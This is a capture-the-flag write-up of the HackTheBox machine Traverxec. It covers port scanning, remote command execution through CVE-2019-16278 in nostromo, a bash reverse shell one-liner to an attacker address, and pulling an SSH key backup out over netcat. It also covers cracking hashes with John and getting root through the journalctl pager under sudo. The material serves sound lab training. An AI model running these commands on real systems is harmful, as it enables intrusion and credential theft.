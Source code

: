 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/6bd1fabe-e487-4657-90a4-a896dae1d1e7)

https://app.hackthebox.com/machines/Traverxec

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration:

I began the enumeration using a quick rust scan to check for open ports and services:

```bash
sudo rustscan -a 10.10.10.165 -- -sC -sV -vv -oN traver_nmap
```

```Rust
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDVWo6eEhBKO19Owd6sVIAFVCJjQqSL4g16oI/DoFwUo+ubJyyIeTRagQNE91YdCrENXF2qBs2yFj2fqfRZy9iqGB09VOZt6i8oalpbmFwkBDtCdHoIAZbaZFKAl+m1UBell2v0xUhAy37Wl9BjoUU3EQBVF5QJNQqvb/mSqHsi5TAJcMtCpWKA4So3pwZcTatSu5x/RYdKzzo9fWSS6hjO4/hdJ4BM6eyKQxa29vl/ea1PvcHPY5EDTRX5RtraV9HAT7w2zIZH5W6i3BQvMGEckrrvVTZ6Ge3Gjx00ORLBdoVyqQeXQzIJ/vuDuJOH2G6E/AHDsw3n5yFNMKeCvNNL
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLpsS/IDFr0gxOgk9GkAT0G4vhnRdtvoL8iem2q8yoRCatUIib1nkp5ViHvLEgL6e3AnzUJGFLI3TFz+CInilq4=
|   256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGJ16OMR0bxc/4SAEl1yiyEUxC3i/dFH7ftnCU7+P+3s
80/tcp open  http    syn-ack ttl 63 nostromo 1.9.6
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan results showed two open ports, 22 for SSH and 80 for HTTP. The SSH service is running OpenSSH 7.9p1 on Debian 10, while the HTTP service is running nostromo version 1.9.6.

I then checked the searchsploit database for any available exploits related to nostromo & searchsploit results showed three exploits available for nostromo.:

```bash
searchsploit nostrormo
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f5d6e281-0d88-4215-9b8d-82209ced2dc6)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access:

After checking the results of serachsploit I observed that only 2 are showing the relevant version & from these 2 only 1 is having python exploit as other one is showing the metasploit exploit.
To not use the metasploit, I downloaded the python exploit & made some changes in the scirpt as it was showing error while running.

After making the necessary changes, I executed the script & observed the results:

```bash
python cve-2019-16278.py 10.10.10.165 80 'cat /etc/passwd'
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/a24e9815-044f-402b-b87b-7e3d7e90c107)

In the /etc/passwd file I observed 1 user "david".

Moving further to get a reverse shell, I used bash one-liner & executed it using the python script. After the execution I quickly received the reverse shell in my netcat listener. 🙂

```bash
python cve-2019-16278.py 10.10.10.165 80 'bash -c "bash -i >& /dev/tcp/10.10.14.128/53 0>&1"'
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/3b02ff8a-35ab-4d78-b109-108963928749)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## User access:

Now, I got the initial access as user "www-data" but I still don't have the user flag or sufficient access to read david's file.
To gain access as david, I started looking for manually & in one of the directory "/var/nostromo/conf" I found hashed credential belongs to david.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e1ff9641-baee-4355-91e9-7b302ca5dfb2)

I cracked this hash & gained the cleartext password from it:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9393b618-85b9-4d42-ab73-9fe7db127132)

Using this password I tried to switch to David from www-data & also tried to login via SSH but none of them worked. 😕

I then searched about the nhttpd documentation & found [this](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd):

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/72ae33a3-9e70-4aad-8ce7-9b29691d7f78)

Using the above logic, when I checked for the "~david", I observed that he is having his home dircetory hosted on the web:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/59e62377-8aa1-4308-b5a0-9a6a76c09af9)

Now, when I checked the existing "nhttpd.conf" file I observed the "homedirs_public" folder at "public_www":

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e0f70c5c-d579-4147-b234-05aa203a6b15)

So, I moved into the David home directory & tried to list out the files but the current user doesn't have access for the David files, however I was able to cd into "public_www" folder located inside "David" home directory:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/0da7de0d-8a8a-4389-b96f-43bd99076013)

While checking the directory, I observed a folder "cd protected-file-area" & in that folder I observed a backup file: "backup-ssh-identity-files.tgz".

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/4c5e4650-68d0-4b12-b99c-dfe7ddafa84b)

I transferred this backup file to my kali host using netcat:

```bash
#from the victim machine
nc <kali IP> <Port> < backup-ssh-identity-files.tgz
```
```bash
#from my attacking machine
nc -lnvp <port> > output-file.tgz
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/c1d9a98f-87d4-464a-82f9-161c2f05a53d)

Once the transfer is completed I unzipped the file using 'tar' comaand:

```bash
tar xzvf backup-ssh.tgz
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/5d34a73a-506f-4158-aba7-65484c993de6)

After unzipping the file I got the "david" home directory which contains ssh private keys.

I changed the SSH private key file permission using "chmod 600" & tried to login with this key. But observed that this key is encrypted & I need password to use this private key as well.

So, I used John The ripper to crack the SSH private key password, using below command:

```bash
ssh2john id_rsa > john_rsa

john john_rsa -w=/usr/share/wordlist/rockyou.txt
```

After conevrting the file into John the ripper format & using the same to crack, I got the clear-text credentials in just few seconds:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/4ba889f3-e112-447d-9a71-0b8164880ee8)

After using the cracked credentilas, I was finally able to login to David & fetched the user flag as well. (pwn3d!🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/280cfb58-a11b-4191-aeca-6c1f3d056cad)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Privilege Escalation:

After gaining the access of David I started looking at the other files in David's home directory & I observed a file in the /bin folder "server-stats.sh"

File contains below code:

```bash
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
In the last of the code we can see that it's running "journalctl" command with sudo privileges. I checked the GtfoBins for "journalctl" & obsred that it invokes the default pager, which is likely to be less, other functions may apply.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/82e18d27-9f92-4b39-9061-eebf8a005267)

While running the last line of code manually, it isn't loading the less pager.

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

I tried multiple time to load less pager in different way but everytime the service is getting started without opening the less pager, then in the end I thought to just minimze my terminal winodw size so, that the command won't be able to get sufficient 5 lines to display the results.

And, this actually worked as this loaded the less pager in the terminal:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9bad58f8-959c-4da0-92c5-ec0930d0af18)

Once this less pager is loaded I just executed the "!/bin/bash" to load the bash shell. Which then loaded the shell as a root user. (pwn3d!🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f553be3b-5da0-439f-9bf8-9595058a95ad)

